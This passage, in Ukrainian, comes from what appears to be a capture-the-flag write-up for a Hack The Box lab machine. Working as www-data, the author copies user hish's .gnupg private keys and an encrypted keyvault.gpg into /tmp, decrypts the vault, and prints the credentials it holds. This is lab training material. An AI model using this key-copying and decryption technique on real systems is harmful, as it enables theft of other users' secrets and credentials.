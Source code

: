 Але це не спрацює і займе багато часу і насправді не потрібно для отримання пароля hish, тому що у нас є доступ до домашньої директорії hish для читання всіх файлів всередині

### Розшифрування GPG Keyvault

```bash
www-data@environment:~$ ls -la /home/hish
ls -la /home/hish
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Sep  5 17:46 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Sep  5 04:00 user.txt
```

Дивлячись на директорію backup, ми бачимо файл `keyvault.gpg`, який можемо спробувати дешифрувати за допомогою GPG. Але просто використовуючи `gpg -d keyvault.gpg` в нас не вийде:

```bash
www-data@environment:/home/hish$ ls -la backup/
ls -la backup/
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Sep  5 17:48 keyvault.gpg
www-data@environment:/home/hish$ cd backup
cd backup
www-data@environment:/home/hish/backup$ gpg -d keyvault.gpg
gpg -d keyvault.gpg
gpg: Fatal: can't create directory '/var/www/.gnupg': Permission denied
```

тому що у нас немає дозволу створювати файли як користувач www-data в /var/www.

Тому нам потрібно скопіювати `keyvault.gpg` і `.gnupg` директорію hish з їхніми приватними ключами в директорію, де у нас є права на запис. Я використаю `/tmp` для цього

Також для того щоб gpg знав, що йому треба брати приватні ключі з нашої скопійованої директорії, треба додати параметр `--homedir /tmp/.gnupg`:

```bash
www-data@environment:$ cd /tmp
www-data@environment:/tmp$ cp -r /home/hish/.gnupg . && cd .gnupg
www-data@environment:/tmp/.gnupg$ ls
openpgp-revocs.d   pubring.kbx   random_seed
private-keys-v1.d  pubring.kbx~  trustdb.gpg
www-data@environment:/tmp/.gnupg$ cp /home/hish/backup/keyvault.gpg .
www-data@environment:/tmp/.gnupg$ gpg --homedir /tmp/.gnupg -d keyvault.gpg
gpg --homedir /tmp/.gnupg -d keyvault.gpg
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```
